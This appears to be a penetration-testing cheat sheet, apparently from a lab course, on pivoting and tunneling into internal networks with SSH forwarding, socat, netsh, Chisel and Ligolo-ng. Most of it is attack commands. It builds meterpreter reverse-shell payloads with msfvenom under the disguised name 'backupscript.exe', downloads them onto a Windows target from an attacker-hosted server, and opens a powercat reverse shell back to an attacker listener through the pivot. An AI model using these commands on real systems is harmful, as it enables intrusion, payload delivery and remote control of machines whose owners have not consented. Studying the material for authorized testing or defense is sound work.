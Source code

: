 # Pivoting, Tunneling, and Port Forwarding
## SSH Local Port Forwarding
Forward port 3306 from 10.129.202.64 to localhost 1234
```
$ ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```

```
$ ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```

### Enabling Dynamic Port Forwarding with SSH
```
$ ssh -D 9050 ubuntu@10.129.202.64
```

```
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

```
$ proxychains nmap -v -sn 172.16.5.1-200
```

## Remote/Reverse Port Forwarding with SSH
```
$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000
```

```
ubuntu@pivot$ python3 -m http.server 8123
```

```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

```
$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```
## Socat Redirection with a Reverse Shell
```
ubuntu@pivot:~$ socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80
```

```
$ msfvenom -p windows/x64/meterpreter/reverse_https LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=8080
```

## Port Forwarding with Windows Netsh
```
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

## SOCKS5 Tunneling with Chisel
`Find PID to kill`
```
$ lsof -i:8080 
```

`Local Machine`
```
$ chisel server --socks5 --reverse`
```

`Remote machine`
```
./chisel client --fingerprint f9KLbYov18MaH86fvgZhbVMyTAj4LAT6Iv8E8Nlwy0k= 10.10.15.23:8080 R:8081:127.0.0.1:445
```

## Pivoting
### [Ligolo-ng](https://github.com/nicocha30/ligolo-ng)

[Guide](https://software-sinner.medium.com/how-to-tunnel-and-pivot-networks-using-ligolo-ng-cf828e59e740)
[Video](https://www.youtube.com/watch?v=qou7shRlX_s)

`Proxy (Attack)`
```
$ sudo ip tuntap add user [your_username] mode tun ligolo

$ sudo ip link set ligolo up

$ ./proxy -selfcert
$ ./proxy -autocert
```


`Agent (Target)`
```
C:\Windows\system32> ./agent -connect 10.10.15.184:11601 --ignore-cert
```

`Proxy (Attack)`
```
session

[Agent : ubuntu@WEB01] » ifconfig
```

```
[Agent : ubuntu@WEB01] » start
```


[IPCalculator](https://jodies.de/ipcalc)
```bash
$ sudo ip route add 172.16.4.0/23 dev ligolo
```

After that, we can scan for live hosts on new network found.

`Proxy (Attack)`
```bash
nmap -sn 172.16.5.0/24
```
### Download and Upload files from and to Target
```bash
# Redirect 8080 on Agent machine to our Proxy 8080 to upload files to it 
» listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:8080 --tcp

# Redirect 8000 on Agent machine to our Proxy 8000 to download files from it 
» listener_add --addr 0.0.0.0:8000 --to 127.0.0.1:8000 --tcp
```

#### Reverse Shell Pivot Machine to Attack Machine throught Agent
`Proxy (Attack)`
```
[Agent : session] » listener_add --addr 0.0.0.0:30000 --to 127.0.0.1:10000 --tcp
```

```
$ nc -lnvp 10000
```

`Agent(Target)`
```
https://github.com/besimorhino/powercat/blob/master/powercat.ps1

Copy into powershell

C:\Users\victor> powercat -c (Internal Pivot Machine Interface) -p 30000 -ep
```

### Double Pivot[https://medium.com/@issam.qsous/mastering-multi-pivot-strategies-unleashing-ligolo-ngs-power-double-triple-and-even-quadruple-dca6b24c404c]
- https://www.hackingarticles.in/a-detailed-guide-on-ligolo-ng/


After access to first machine or pivot, if exists another network we can also pivot to it.

First we need to put agent on pivot machine, for it we need to open a port on our local machine and add a listener on pivot machine to redirect from port 8080 to our local port 9999.

**Download Agent to Pivot - Proxy (Attack)**
Open port to pass our http server

```
[Agent : session] » listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:9999 --tcp
``` 

**Pivot New Target**
```
Download agent file from (Internal Pivot Machine Interface):8080
```

**Proxy (Attack)**
```
$ sudo ip tuntap add user [your_username] mode tun ligoloSec

$ sudo ip link set ligoloSec up

$ sudo ip route add 172.16.5.155 dev ligoloSec
```

```
[Agent : session] » listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

**Pivot New Target**
```
C:\Windows\system32> ./agent -connect (Internal Pivot Machine Interface):11601 --ignore-cert
```

**Proxy (Attack)**
```
[Agent : session] » start --tun ligoloSec
```


### Forward Ports from Pivot Machine to Attack Machine
```
$ sudo ip route add 240.0.0.1/32 dev ligolo
```

```
$ nmap 240.0.0.1
```

